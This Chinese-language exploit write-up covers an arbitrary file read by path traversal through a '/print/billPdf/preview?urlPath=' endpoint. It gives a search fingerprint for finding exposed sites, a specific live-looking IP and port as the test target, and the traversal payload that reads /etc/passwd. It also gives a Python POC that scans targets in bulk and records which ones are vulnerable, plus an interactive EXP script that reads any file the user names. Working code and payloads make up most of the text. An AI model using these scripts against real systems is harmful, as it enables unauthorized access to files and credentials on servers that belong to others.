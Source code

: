 ## 一、资产搜索

```
body="js/npm.echarts.js"
```

## 二、网站测试

```
http://8.142.144.80:8180
```

## 三、验证漏洞

```
/print/billPdf/preview?urlPath=../../../../../../../../../../../../../../etc/passwd
```

![image-20240914213904557](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914213904557.png)

## 四、POC

```
def poc(target):
    payload = "/print/billPdf/preview?urlPath=../../../../../../../../../../../../../../etc/passwd"
    headers = {
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0",
        "Accept": "application/json,text/javascript,*/*;q=0.01",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip,deflate",
        "Connection": "close",
    }
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,headers=headers,verify=False,timeout=5)
            if "root" in res2.text:
                with open("result.txt","a",encoding="utf-8") as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print(f"该网站[+]{target}有问题，请手动测试！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        proxies = {
            "http": "http://127.0.0.1:8080",
            "https": "http://127.0.0.1:8080",
        }
        headers = {
            "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0",
            "Accept": "application/json,text/javascript,*/*;q=0.01",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip,deflate",
            "Connection": "close",
        }
        content = input("请输入要查看的路径，从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>>>")
        payload = "/print/billPdf/preview?urlPath=../../../../../../../../../../../../../.."
        res1 = requests.get(url=target, verify=False,timeout=5)
        if content == "q":
            exit()
        if res1.status_code == 200:
            res2 = requests.get(url=target + payload +content,headers=headers, verify=False, timeout=5)
            print(res2.text)
        else:
            print("该文件不存在，请重新输入！！")
```

## 六、测试结果

![image-20240914213844937](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914213844937.png)

![image-20240914214009578](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914214009578.png)

